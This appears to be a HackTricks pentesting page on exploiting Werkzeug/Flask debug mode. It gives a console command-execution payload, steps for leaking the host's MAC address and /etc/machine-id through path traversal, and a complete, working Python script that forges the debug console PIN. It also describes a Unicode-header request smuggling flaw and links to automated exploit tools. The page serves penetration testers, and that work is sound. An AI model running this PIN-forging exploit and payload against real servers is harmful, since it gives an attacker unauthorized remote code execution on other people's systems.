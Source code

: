 # Werkzeug / Flask Debug

{{#include ../../banners/hacktricks-training.md}}

<figure><img src="/images/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

If debug is active you could try to access to `/console` and gain RCE.

```python
__import__('os').popen('whoami').read();
```

![](<../../images/image (117).png>)

There is also several exploits on the internet like [this ](https://github.com/its-arun/Werkzeug-Debug-RCE)or one in metasploit.

## Pin Protected - Path Traversal

In some occasions the **`/console`** endpoint is going to be protected by a pin. If you have a **file traversal vulnerability**, you can leak all the necessary info to generate that pin.

### Werkzeug Console PIN Exploit

Force a debug error page in the app to see this:

```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```

A message regarding the "console locked" scenario is encountered when attempting to access Werkzeug's debug interface, indicating a requirement for a PIN to unlock the console. The suggestion is made to exploit the console PIN by analyzing the PIN generation algorithm in Werkzeug’s debug initialization file (`__init__.py`). The PIN generation mechanism can be studied from the [**Werkzeug source code repository**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/__init__.py), though it is advised to procure the actual server code via a file traversal vulnerability due to potential version discrepancies.

To exploit the console PIN, two sets of variables, `probably_public_bits` and `private_bits`, are needed:

#### **`probably_public_bits`**

- **`username`**: Refers to the user who initiated the Flask session.
- **`modname`**: Typically designated as `flask.app`.
- **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Generally resolves to **Flask**.
- **`getattr(mod, '__file__', None)`**: Represents the full path to `app.py` within the Flask directory (e.g., `/usr/local/lib/python3.5/dist-packages/flask/app.py`). If `app.py` is not applicable, **try `app.pyc`**.

#### **`private_bits`**

- **`uuid.getnode()`**: Fetches the MAC address of the current machine, with `str(uuid.getnode())` translating it into a decimal format.

  - To **determine the server's MAC address**, one must identify the active network interface used by the app (e.g., `ens3`). In cases of uncertainty, **leak `/proc/net/arp`** to find the device ID, then **extract the MAC address** from **`/sys/class/net/<device id>/address`**.
  - Conversion of a hexadecimal MAC address to decimal can be performed as shown below:

    ```python
    # Example MAC address: 56:00:02:7a:23:ac
    >>> print(0x5600027a23ac)
    94558041547692
    ```

- **`get_machine_id()`**: Concatenates data from `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` with the first line of `/proc/self/cgroup` post the last slash (`/`).

<details>

<summary>Code for `get_machine_id()`</summary>

```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
    global _machine_id

    if _machine_id is not None:
        return _machine_id

    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break

        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux

        # On OS X, use ioreg to get the computer's serial number.
        try:
```

</details>

Upon collating all necessary data, the exploit script can be executed to generate the Werkzeug console PIN:

Upon collating all necessary data, the exploit script can be executed to generate the Werkzeug console PIN. The script uses the assembled `probably_public_bits` and `private_bits` to create a hash, which then undergoes further processing to produce the final PIN. Below is the Python code for executing this process:

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

This script produces the PIN by hashing the concatenated bits, adding specific salts (`cookiesalt` and `pinsalt`), and formatting the output. It's important to note that the actual values for `probably_public_bits` and `private_bits` need to be accurately obtained from the target system to ensure the generated PIN matches the one expected by the Werkzeug console.

> [!TIP]
> If you are on an **old version** of Werkzeug, try changing the **hashing algorithm to md5** instead of sha1.

## Werkzeug Unicode chars

As observed in [**this issue**](https://github.com/pallets/werkzeug/issues/2833), Werkzeug doesn't close a request with Unicode characters in headers. And as explained in [**this writeup**](https://mizu.re/post/twisty-python), this might cause a CL.0 Request Smuggling vulnerability.

This is because, In Werkzeug it's possible to send some **Unicode** characters and it will make the server **break**. However, if the HTTP connection was created with the header **`Connection: keep-alive`**, the body of the request won’t be read and the connection will still be open, so the **body** of the request will be treated as the **next HTTP request**.

## Automated Exploitation

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## References

- [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
- [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
- [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
- [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/images/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{{#include ../../banners/hacktricks-training.md}}

